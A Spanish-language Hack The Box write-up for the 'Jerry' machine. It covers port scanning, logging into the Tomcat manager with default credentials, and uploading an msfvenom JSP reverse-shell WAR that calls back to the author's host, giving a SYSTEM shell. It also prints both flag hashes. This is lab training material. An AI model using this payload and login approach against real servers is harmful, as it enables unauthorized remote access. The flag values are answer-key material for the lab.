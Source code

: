 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Ésta máquina es bastante facililla. Vamos a explotar un Tomcat aprovechandonos de un upload de la página, aunque primero necesitaremos credenciales válidas. Asá que vamos a ello."
date: 2021-9-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-Jerry/Jerry_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
   - hackthebox
   - infosec
tags:
    - linux
    - tomcat
    - file upload
    - web loger
    - revershell
---
```


![](/assets/images/htb-writeup-Jerry/Jerry_logo.png)

# Reconocimiento

Primero vamos a realizar como siempre un reconocimiento de puertos por el protocolo **TCP** , y el output lo redirigiremos al archivo `allPorts`

```bash

h3g0c1v@kali:~/htb/jerry$ nmap --min-rate 5000 -p- --open -vvv -n -Pn -oG allPorts 10.10.10.95

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:43 CEST
Initiating SYN Stealth Scan at 20:43
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 20:44, 26.36s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.041s latency).
Scanned at 2021-09-15 20:43:54 CEST for 26s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

```

Vemos que solo tiene un puerto abierto, que es el puerto 8080.
Antes de ver que nos dice el **whatweb** , vamos a ejecutar una herramienta llamada `extractPorts` , que yo tengo previamente definida en la `.zshrc`. Dicha herramienta está creada por s4vitar

```bash

extractPorts allPorts 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.95
   5   │     [*] Open ports: 8080
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴─────────────────────────────────────────────────────────────────

```

Y vamos a detectar la versión y servicio que corren para el puerto 8080.

```bash

nmap -sC -sV -p8080 10.10.10.95
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:49 CEST
Nmap scan report for 10.10.10.95
Host is up (0.040s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```

Muy bien, nos reporta un poco más de informacion. Aun asi, veamos que nos dice el **whatweb** .

```bash

h3g0c1v@kali:~/htb/jerry$ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]

```
# Consiguiendo Acceso a la Máquina

Genial, veamos que contiene ese servidor web Tomcat

![](/assets/images/htb-writeup-Jerry/Tomcat_page.png)

Y nos aparece lo siguiente. Puedo probar a ver si tiene un **panel login** la pagina web. La ruta en la que normalmente está almacenado el panel login en Tomcat es `/manager/html`, asi que vamos a probar.

![](/assets/images/htb-writeup-Jerry/tomcat_page.png)

Vamos a probar con las credenciales típicas de **admin** , **admin**. ¡Y vemos las credenciales! ¡Por que sí! Que raro es esto, pero la hemos encontrado.

![](/assets/images/htb-writeup-Jerry/credentials.png)

Bueno pues nos **logeamos** con las credenciales y vemos lo siguiente.

![](/assets/images/htb-writeup-Jerry/dentro_tomcat.png)

Por abajo veo que hay un **upload** de archivos `.war` por lo que voy a intentar meter una revershell, para intentar ganar acceso al sistema.

Y para ello utilizaremos **msfvenom** , e utilizar la reveshell hecha en **java** llamada `java/jsp_shell_reverse_tcp`.

```bash

h3g0c1v@kali:~/htb/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > revershell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

```

Ahora metemos el archivo `.war` en la pagina web, para que se nos cree otro módulo.

![](/assets/images/htb-writeup-Jerry/revershell.png)

Y una vez metido el archivo en la máquina, nos ponemos en escucha por el puerto **443** , para ver si es vulnerable.

```bash

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>


```
# Visualizando las Flags

¡Y si! Es vulnerable. Hemos ganado acceso al sistema, incluso lo hemos hecho como `nt authority\system`.

```bash

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

En este punto ya hemos comprometido la máquina y podemos ver las flags de **user.txt** y **root.txt** .

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
